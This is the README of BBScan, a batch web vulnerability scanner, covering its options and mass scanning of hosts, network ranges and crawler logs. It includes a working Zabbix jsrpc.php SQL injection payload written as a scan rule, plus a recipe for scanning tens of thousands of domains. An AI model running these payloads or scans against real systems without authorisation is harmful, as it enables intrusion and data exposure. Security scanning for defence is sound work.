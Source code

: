 # BBScan 1.2.1 #

**BBScan** is a tiny **B**atch we**B** vulnerability **Scan**ner.

## Requirements ##
* BeautifulSoup4>=4.3.2
* py2-ipaddress>=3.4.1
* dnspython>=1.15.0
* requests>=2.11.1

You can install required packages with pip

	pip install -r requirements.txt

## Usage ##

	usage: BBScan.py [options]
	
	* A tiny Batch weB vulnerability Scanner. *
	By LiJieJie (http://www.lijiejie.com)
	
	optional arguments:
	  -h, --help            show this help message and exit
	  --host HOST [HOST2 HOST3 ...]
	                        Scan several hosts from command line
	  -f TargetFile         Load targets from TargetFile
	  -d TargetDirectory    Load all *.txt files from TargetDirectory
	  --crawler TargetDirectory
	                        Load all *.log crawler file from TargetDirectory
	  --full-scan           Process all sub directories.
	  -n, --no-crawl        No crawling, sub folders will not be processed.
	  -nn, --no-check404    No HTTP 404 existence check
	  -p PROCESS            Num of processes running concurrently, 8 by default
	  -t THREADS            Num of scan threads for each scan process, 3 by default
	  --network MASK        Scan all Target/MASK hosts,
	                        should be an int between 24 and 31
	  --timeout Timeout     Max scan minutes for each website, 20 by default
	  --browser             View report with browser after scan finished
	  -md                   Save the scan report as markdown format
	  -v                    show program's version number and exit

**1. Scan several hosts from command line** 

	python BBScan.py  --host www.a.com www.b.com --browser

**2. Scan www.target.com and all the other IPs under www.target.com/28**

	python BBScan.py  --host www.target.com --network 28 --browser
	
**3. Load newline delimited targets from file and scan**
	
	python BBScan.py -f wandoujia.com.txt

**4. Load all targets from Directory(\*.txt file only) and scan**

	python BBScan.py -d targets/

**5. Load crawler logs from Directory(\*.log file only) and scan**

	python BBScan.py --crawler crawler_logs/

crawler log files should be formarted first:

			. GET http://www.iqiyi.com/ HTTP/1.1^^^200
			. POST http://www.pps.tv/login.php HTTP/1.1^^^user=admin&passwd=admin^^^200


## 使用说明 ##

BBScan是一个迷你的信息泄漏批量扫描脚本。 可以通过文本批量导入主机或URL，以换行符分割。
	
`--crawler` 参数是`v1.1`新增的，可以导入爬虫日志发起扫描。 日志的格式，我们约定如下：

			Request Line + 三个尖括号 + [POST请求body] + 三个尖括号 + HTTP状态码
示例如下：

			. GET http://www.iqiyi.com/ HTTP/1.1^^^200
			. POST http://www.pps.tv/login.php HTTP/1.1^^^user=admin&passwd=admin^^^200

`--full-scan`  处理所有的子文件夹，比如 `http://www.target.com/aa/bb/cc/`, `/aa/bb/cc/` `/aa/bb/` `/aa/` 三个path都将被扫描

`-n, --no-crawl`  不从首页抓取新的URL

`-nn, --no-check404` 不检查状态码404是否存在，不保存404页面的大小进行后续比对


## web漏洞应急中的简单应用 ##

以批量扫描 Zabbix SQL注入为例，在一个txt文件中写入规则：

	/zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=1zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim%20estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi%20story.php&profileIdx=web.item.graph&profileIdx2=(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),%20user())x%20from%20information_schema.character_sets%20group%20by%20x)y)&updateProfil%20e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=%2017&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&%20mark_color=1    {tag="Duplicate entry"}  {status=200}  {type="text/plain"}
	
	/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&stamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=1zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim%20estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi%20story.php&profileIdx=web.item.graph&profileIdx2=(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),%20user())x%20from%20information_schema.character_sets%20group%20by%20x)y)&updateProfil%20e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=%2017&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&%20mark_color=1          {tag="Duplicate entry"}  {status=200}  {type="text/plain"}

把所有HTTP like的服务写入 iqiyi.http.txt：

	不要抓首页
	不要检测404
	并发2个线程、 50个进程

可以比较迅速地扫完几万个域名和IP地址：

	BBScan.py --no-crawl --no-check404 -t2 -p50 -f iqiyi.http.txt


该插件是从内部扫描器中抽离出来的，感谢 `Jekkay Hu<34538980[at]qq.com>` ，欢迎提交有用的新规则	
